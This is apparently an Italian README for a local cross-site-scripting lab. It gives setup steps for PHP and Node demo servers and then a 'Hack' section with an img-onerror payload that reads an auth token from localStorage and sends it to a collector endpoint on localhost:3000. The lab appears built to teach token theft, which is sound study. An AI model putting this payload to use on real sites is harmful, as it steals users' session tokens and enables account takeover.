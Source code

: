Run ambiente
- Go live del progetto principlae (index.html)
- Prova con PHP: entrare nella cartella server_php e lanciare il server con `php -S localhost:8000`
- Prova con node: entrare nella cartella server_node:
    - lanciare `npm install` la prima volta
    - lanciare il server con `node server.js`

Hack
In base al server in esecuzione modificare il seguente payload
<img src="x" onerror="const authToken = localStorage.getItem('authToken');const url = `http://localhost:3000/saveToken?authToken=${encodeURIComponent(authToken)}`;fetch(url).then(response => {if (response.ok) {console.log('Token inviato con successo!');} else {console.error('Errore durante l\'invio del token');}}).catch(error => console.error('Errore di rete:', error));">
